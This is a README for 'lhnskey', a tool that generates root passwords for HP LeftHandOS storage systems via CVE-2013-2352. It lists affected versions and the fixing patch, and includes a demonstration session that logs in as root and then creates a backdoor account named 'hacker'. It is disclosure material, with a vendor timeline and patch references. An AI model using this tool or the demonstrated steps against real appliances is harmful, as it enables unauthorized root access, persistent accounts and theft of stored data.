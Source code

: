 LHNSKEY
=========

Generator for CVE-2013-2352.

By: technion@lolware.net

Affected Platforms:
    All Hardware and sofware implementations running LeftHandOS 10.5 or earlier, including Failover Manager and VSA.

Fix:
    Apply HP Patch 10152 (LefthandOS 10.5) or 10151 (LefthandOS 10.0).

Revision History:
----------------
    2nd July 2013: Initial design
    3th July 2013: Consulted with HP
    17th July 2013: HP Released Patch

Demonstration:
-------------
The lhnskey application will create an appropriate root password based on the support key encountered during logon.
I recommend the following site to create the s/key response: http://www.ocf.berkeley.edu/~jjlin/jsotp/md5/

    login as: root
    Support Key: 00:0C:29:XX:XX:XX
    Using keyboard-interactive authentication.
    Password:
    Using keyboard-interactive authentication.
    challenge s/key 99 loca11277
    password:

    #You may then grant yourself access to data by creating a CMC account
    [root@localhost lefthand]# adduser hacker 
    [root@localhost lefthand]# passwd hacker Changing password for user hacker.
    New UNIX password: <password>
    BAD PASSWORD: it is based on a dictionary word 
    Retype new UNIX password: <password>
    passwd: all authentication tokens updated successfully.
    [root@localhost lefthand]# chsh hacker
    Changing shell for hacker.
    New shell [/bin/bash]: /etc/lefthand/bin/cliq Shell changed.


Installation
The official repository for lhnskey is the git tree. Install using the following:
    git clone https://github.com/technion/lhnskey
    ./configure
    make
    make check

The ./configure script accepts some options:
    --enable-development enable developer features default=no
    --enable-secure turn on security features default=yes
The autoconf script will link against OpenSSL if detected, otherwise, a shipped md5.c will be compiled in.
